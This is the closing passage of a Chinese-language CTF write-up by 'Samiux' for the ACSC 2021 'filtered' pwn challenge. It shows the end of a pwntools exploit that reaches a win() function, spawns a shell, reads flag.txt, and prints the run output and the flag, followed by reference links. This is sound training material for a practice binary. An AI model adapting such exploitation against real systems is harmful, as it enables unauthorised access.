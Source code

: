 ```
p.recvline(b'Bye!')

p.sendline(b'cat flag.txt')
log.success(f'Flag: {p.recvline().decode("utf-8")}')
#p.interactive()

```


## 执行結果

```
python3 exploit.py
```

```
[*] '/home/samiux/filtered/filtered'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './filtered': pid 2471
[*] Loaded 14 cached gadgets for './filtered'
[*] 0x0000:         0x4011d6 win()
[+] Flag: ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
[*] Stopped process './filtered' (pid 2471)

```

结果获得 Shell 及展示 flag.txt ：

```
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}

```

Samiux   
OSCE  OSCP  OSWP   
二零二二年五月一日，中国香港   

### 参考资料 ：

- [PWN 101 - Buffer Overflow 「广东话 CTF 新手教学」-- Black Bauhinia 黑荆战队](https://www.youtube.com/watch?v=Ag0OcqbVggc)   
- [ACSC 2021 filtered 下载](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbEhPWE9sUFU1OEZBZFFJaWNVbG5qZkhWdnpkUXxBQ3Jtc0trQ0NqTnRoSmU0ZTQ3eUJFM1AwcDl4V3BHRWxEOUo5bjhBbG5rMTFhWF8xc2JlWnY3WDh2TXR6UmxVYW1KQkptdFk0MWhTeTMyMlRNWjQ0MERQbWdMeHpFUmRmZWZsUGdnVS1wenlJaDg3T19QTDFuWQ&q=https%3A%2F%2Fdrive.google.com%2Ffile%2Fd%2F1YwFlz9fUE4KD_Jkv3psqtyknmf_otrsX&v=Ag0OcqbVggc)  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
